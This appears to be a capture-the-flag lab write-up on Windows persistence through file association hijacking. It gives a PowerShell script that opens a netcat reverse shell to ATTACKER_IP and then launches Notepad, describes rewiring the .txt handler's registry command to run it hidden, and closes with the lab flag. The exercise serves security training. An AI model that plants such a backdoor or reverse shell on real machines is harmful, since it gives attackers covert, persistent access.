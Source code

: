 ## Hijacking File Associations

In addition to persisting through executables or shortcuts, we can hijack any file association to force the operating system to run a shell whenever the user opens a specific file type.

The default operating system file associations are kept inside the registry, where a key is stored for every single file type under `HKLM\Software\Classes\`. Let's say we want to check which program is used to open .txt files; we can just go and check for the `.txt` subkey and find which **Programmatic ID (ProgID)** is associated with it. A ProgID is simply an identifier to a program installed on the system. For .txt files, we will have the following ProgID:

![File extensions in registry](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/3ae1b8356b38a349090e836026d6d480.png)  

We can then search for a subkey for the corresponding ProgID (also under `HKLM\Software\Classes\`), in this case, `txtfile`, where we will find a reference to the program in charge of handling .txt files. Most ProgID entries will have a subkey under `shell\open\command` where the default command to be run for files with that extension is specified:

![ProgID in registry](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/c3565cf93de4990f41f41b25aed80571.png)  

In this case, when you try to open a .txt file, the system will execute `%SystemRoot%\system32\NOTEPAD.EXE %1`, where `%1` represents the name of the opened file. If we want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens the file as usual. First, let's create a ps1 script with the following content and save it to `C:\Windows\backdoor2.ps1`:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Notice how in Powershell, we have to pass `$args[0]` to notepad, as it will contain the name of the file to be opened, as given through `%1`.

Now let's change the registry key to run our backdoor script in a hidden window:

![backdoored ProgID](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f7ed25a701cf20ea85cf333b20708ffe.png)  

Finally, create a listener for your reverse shell and try to open any .txt file on the victim machine (create one if needed). You should receive a reverse shell with the privileges of the user opening the file.

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png)

Once you have backdoored the .txt file handler and spawned a reverse shell, run `C:\flags\flag6.exe` to get a flag!


Once we follow all steps and open a `.txt` file, we will receive a shell:

![](../images/Pasted%20image%2020250515163552.png)

```
C:\flags>.\flag6.exe
THM{TXT_FILES_WOULD_NEVER_HURT_YOU}
```
